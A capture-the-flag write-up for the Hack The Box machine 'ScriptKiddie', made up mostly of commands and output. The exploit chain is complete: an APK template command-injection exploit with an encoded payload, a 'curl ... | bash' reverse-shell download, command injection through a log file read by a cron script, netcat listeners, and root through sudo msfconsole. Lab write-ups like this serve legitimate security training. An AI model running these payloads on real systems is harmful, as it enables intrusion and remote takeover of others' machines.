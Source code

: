 ```yaml
---
title: "ScriptKiddie from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# ScriptKiddie from HTB
```bash
searchsploit -m multiple/local/49491.py
```
modify the payload inside it
```bash
curl 10.10.16.11:8000/reverse.sh | bash
```
To get reverse shell
```bash
python3 49491.py
[+] Manufacturing evil apkfile
Payload: curl 10.10.16.11:8000/reverse.sh | bash
-dname: CN='|echo Y3VybCAxMC4xMC4xNi4xMTo4MDAwL3JldmVyc2Uuc2ggfCBiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA384withRSA) with a validity of 90 days
	for: CN="'|echo Y3VybCAxMC4xMC4xNi4xMTo4MDAwL3JldmVyc2Uuc2ggfCBiYXNo | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpjdd0fz2l/evil.apk
Do: msfvenom -x /tmp/tmpjdd0fz2l/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

mv /tmp/tmpjdd0fz2l/evil.apk .
```
then upload the file and set `lhost`as `127.0.0.1`, OS as `android` then run it
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.226] 45002
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$
```
***
User Flag is: 4d3a1fb5a8a198f66a10f839e04e73f6
***
`you can do --ssh-keygen-- to get ssh connection`
we can read `pwn-s`file
```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
it uses `hackers`which we can edit and so we can use it to get reverse shell, so we will be `pwn`
```bash
 echo "hah hah ;curl 10.10.16.11:8000/reverse.sh | bash" > hackers
```
and we get `shell`
```bash
 rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.226] 45022
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$
```
we can run this with `root permision`
```bash
pwn@scriptkiddie:~/.ssh$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
just run it and when it turns on type `/bin/bash` you will get shell where you will be root
```bash
msf6 > /bin//bin/sh
/bin/sh
[*] exec: /bin/sh

# id
id
uid=0(root) gid=0(root) groups=0(root)
```
***
Root Flag is: 7e218aeea4cb7db6f48a0fb0342ede5b
***
![screen](/assets/images/2024-09-03_23-15-25.png)
